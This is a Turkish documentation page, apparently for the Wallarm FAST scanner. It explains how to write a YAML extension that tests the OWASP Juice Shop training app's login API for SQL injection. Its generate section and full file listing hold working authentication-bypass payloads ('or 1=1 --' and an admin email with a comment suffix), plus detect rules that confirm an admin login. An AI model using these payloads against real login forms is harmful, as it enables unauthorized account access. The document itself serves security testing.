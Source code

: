 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project

#   Modifiye Edici Uzantının Oluşturulması

Bu belgede açıklanan uzantı, gelen temel isteği modifiye ederek içine payload enjeksiyonu yapacaktır. Bu payloadlar, [“OWASP Juice Shop”][link-juice-shop] hedef uygulamasının giriş formundaki SQLi açığının istismarına yol açabilir.
  
##  Hazırlıklar

FAST uzantısı oluşturmadan önce şu adımları atmanız şiddetle tavsiye edilir:
1.  Uzantıyı oluşturduğunuz [hedef uygulamanın davranışını inceleyin][link-app-examination].
2.  Uzantı için [nokta oluşturma ilkelerini okuyun][link-points].


##  Uzantının Oluşturulması

Uzantıyı tanımlayan bir dosya oluşturun (ör. `mod-extension.yaml`) ve gerekli bölümleri ekleyin:

1.  [**`meta-info` bölümü**][link-meta-info].

    Uzantının tespit etmeye çalışacağı açığın açıklamasını hazırlayın.
    
    * açık başlığı: `OWASP Juice Shop SQLi (mod extension)`
    * açığın açıklaması: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * açık tipi: SQL injection
    * açığın tehdit seviyesi: yüksek
    
    İlgili `meta-info` bölümü aşağıdaki gibi görünmelidir:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **`collect` bölümü, [Collect aşaması][doc-collect-phase]**.
    
    Giriş yapmaya çalışırken REST API `POST /rest/user/login` metodu çağrılır.
    
    API’ye gönderilmiş her bir temel giriş isteği için ayrı test isteği oluşturmanıza gerek yoktur; zira güvenlik açığı testleri, POST isteğinde iletilen her bir veri parçası için aynı şekilde gerçekleştirilecektir.
    
    Uzantının, API giriş isteğini aldığında yalnızca bir kez çalışacak şekilde yapılandırılmasını sağlayın. Bunu yapmak için, uzantıya benzersizlik koşulu içeren Collect aşamasını ekleyin.

    `/rest/user/login` API giriş isteği şu bileşenlerden oluşur:

    1.  Yolun ilk kısmı: `rest`
    2.  Yolun ikinci kısmı: `user`
    3.  `login` eylem metodu
    
    Bu değerlere karşılık gelen noktalar aşağıdaki gibidir:

    1.  Yolun ilk kısmı için: `PATH_0_value`
    2.  Yolun ikinci kısmı için: `PATH_1_value`
    3.  `login` eylem metodu için: `ACTION_NAME_value`
    
    Bu üç öğenin kombinasyonunun benzersiz olması koşulunu eklerseniz, uzantı API’ye gönderilen ilk `/rest/user/login` temel isteğinde çalışacaktır (bu istek benzersiz kabul edilecek ve sonraki giriş istekleri benzersiz olmayacaktır). 
    
    İlgili `collect` bölümünü uzantı YAML dosyasına ekleyin. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **`match` bölümü, [Match aşaması][doc-match-phase]**.
    
    Gelen temel isteğin gerçekten API’ye giriş isteği olup olmadığını kontrol etmek gereklidir, çünkü oluşturduğumuz uzantı, giriş formundaki güvenlik açıklarını istismar edecektir.
    
    Uzantının, yalnızca temel isteğin hedefi aşağıdaki URI ise çalışacak şekilde yapılandırılmasını sağlayın: `/rest/user/login`. Alınan isteğin gerekli öğeleri içerip içermediğini kontrol eden Match aşamasını ekleyin. Bu, aşağıdaki `match` bölümü ile yapılabilir:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **`modify` bölümü, [Modify aşaması][doc-modify-phase]**.
    
    Temel isteği aşağıdaki hedeflere ulaşacak şekilde modifiye etmeniz gerektiğini varsayalım:
    * `Accept-Language` HTTP başlık değerini temizlemek (bu değer açığın tespit edilmesi için gerekli değildir).
    * `email` ve `password` parametrelerinin gerçek değerlerinin yerine nötr `dummy` değerlerini koymak.
    
    Aşağıda açıklanan hedeflere ulaşmak için isteği değiştiren `modify` bölümünü uzantıya ekleyin:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "İstek öğelerinin açıklama sözdizimi"
        JSON formatındaki istek verisi, `<anahtar: değer>` çiftleri halinde saklandığından, `email` öğesini belirten nokta yukarıda gösterildiği gibi görünür. `password` öğesini belirten nokta da benzer bir yapıya sahiptir.
        
        Noktaların nasıl oluşturulduğuna dair detaylı bilgi için [bu linke][link-points] bakın.
 
5.  **`generate` bölümü, [Generate aşaması][doc-generate-phase]**.

    Hedef uygulamadaki SQL enjeksiyon açığını istismar etmek için temel istekteki `email` parametresinin değerini değiştirmesi gereken iki payload olduğu bilinmektedir:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Modifiye edilmiş isteğe payload eklenmesi"
        Payload, uzantının `modify` bölümünü içermesi nedeniyle, daha önceden modifiye edilmiş isteğe eklenecektir. Böylece `email` alanına ilk payload eklendikten sonra test isteği verisi aşağıdaki gibi görünmelidir:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Seçilen payloadlar nedeniyle herhangi bir şifre ile başarılı şekilde giriş yapılabildiğinden, `password` alanına payload eklenmesine gerek yoktur; çünkü Modify aşamasından sonra bu alan `dummy` değerini alacaktır.
    
        Yukarıda tartışılan gereksinimleri karşılayan test isteklerini oluşturacak `generate` bölümünü ekleyin.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **`detect` bölümü, [Detect aşaması][doc-detect-phase]**.
    
    Aşağıdaki koşullar, yönetici haklarıyla yapılan kullanıcı doğrulamasının başarılı olduğunu göstermektedir:
    * Cevap gövdesinde, `1` değeriyle bulunan alışveriş sepeti tanımlayıcı parametresinin varlığı. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
        "bid":1
        ```
    
    * Cevap gövdesinde, `admin@juice-sh.op` değeriyle bulunan kullanıcı email parametresinin varlığı. Parametre JSON formatındadır ve aşağıdaki gibi görünmelidir:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Saldırının yukarıda açıklanan koşullara göre başarılı olup olmadığını kontrol eden `detect` bölümünü ekleyin.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Özel sembollerin kaçırılması"
    Dizelerdeki özel sembollerin doğru şekilde kaçırıldığından emin olun.

##  Uzantı Dosyası

Artık `mod-extension.yaml` dosyası, uzantının çalışması için gerekli tüm bölümleri içermektedir. Dosya içeriğinin listesi aşağıdadır:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Uzantıyı Kullanma

Oluşturulan uzantının nasıl kullanılacağına dair ayrıntılı bilgi için [bu dokümana][link-using-extension] bakın.